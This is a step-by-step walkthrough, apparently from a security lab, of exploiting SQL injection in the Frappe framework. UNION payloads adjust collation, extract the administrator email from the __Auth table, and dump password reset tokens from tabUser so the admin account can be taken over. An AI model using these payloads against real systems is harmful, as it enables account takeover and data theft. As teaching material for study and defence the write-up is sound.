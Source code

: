 ## Our Options
Frappe passwords are hashed with PBK DF2 hashing algorithm.
While it might be possible to crack the passwords, an easier route might be to hijack the password reset token.
Let's visit the homepage to verify that Frappe does indeed have password reset functionality:

![](../../t5-ss24.png)

We need to determine what tables to query to extract the password reset token value.

## Find The Table
The Frappe documentation for passwords states that Frappe keeps the name and password in the \_\_Auth table.
However, this table does not have a field for the password reset key, so we'll have to search the database for the key location.

We can visit the password reset page.
From here, we can use a token value to reset the password.
This token will allow us to more easily search through the logs to find the correct entry.

We will give the entry of token_searchForUserTable@mail.com.
Sending the request, we will look for database entries with our provided email.
Looking for our string, we find the following query:

```mysql
select * from `tabUser` where `name` = 'token_searchForUserTable@mail.com' order by modified desc
```

We see that the table we're looking for is tabUser.

## Reset The Password
Now that we know all the tables we need to target, we can proceed to exploit this using our SQL injection.
The documentation says that the email can be found in the name column in the \_\_Auth table.

Thus our payload will be:
```mysql
mytext" UNION ALL SELECT 1,2,3,4,name FROM __Auth#
```

However, sending the payload gives us an error:

![](../../t5-ss25.png)

We run into the error "Illegal mix of collations for operation 'UNION'".
Database collation describes the rules determining how the database will compare characters in a character set.
These collations will not take the case into consideration when comparing values.
It is possible for us to force a collation within the query. However, we first need to discover the collation used in the \_\_global_search table that we are injecting into.
Thus, to find the collation being used, we'll use the following payload:

```mysql
mytext" UNION SELECT 1,2,3,4,COLLATION_NAME FROM information_schema.columns 
WHERE TABLE_NAME = "__global_search" AND COLUMN_NAME = "name";
```

Sending the payload, we find the collation being used:

![](../../t5-ss26.png)

Now that we know the collation.
We can modify our payload so it does not throw us an error:

```mysql
mytext" UNION SELECT 1,2,3,4,name COLLATE utf8mb4_general_ci FROM __Auth#
```

Sending the payload, we are able to extract the administrator email:

![](../../t5-ss27.png)

Now that we have the email, we can use this email in the forgot password page, and proceed to extract the password reset token;

![](../../t5-ss29.png)

Before we extract the token, we need to know which column the token is stored in.
For that, we will use the following payload:

```mysql
mytext" UNION ALL SELECT 1,2,3,4,COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME = "tabUser"#
```

Sending the payload:

![](../../t5-ss28.png)

We find the column we're looking for i.e. "reset_password_key" column.
Our next payload, will extract all the contents of the column and will look like so:

```mysql
mytext" UNION ALL SELECT name COLLATE utf8mb4_general_ci,2,3,4,reset_password_key COLLATE utf8mb4_general_ci FROM tabUser#
```

Sending the payload, we get the password reset token:

![](../../t5-ss30.png)

With the token in hand, we need to understand how to use it.
A great way to understand how to use the password reset token is to look for usage of the reset_password_key column from the tabUser table in the database:

![](../../t5-ss31.png)

In the user.py file, we find a URL that with the key parameter, where if the token is passed, it will lead us to a password reset page.

We visit this URL with the captured token and are shown with a password reset page:

![](../../t5-ss32.png)

Resetting the password, we are able to login as the administrator with our own new password.
Entering the password with the captured login, we are able to login as the administrator:

![](../../t5-ss33.png)
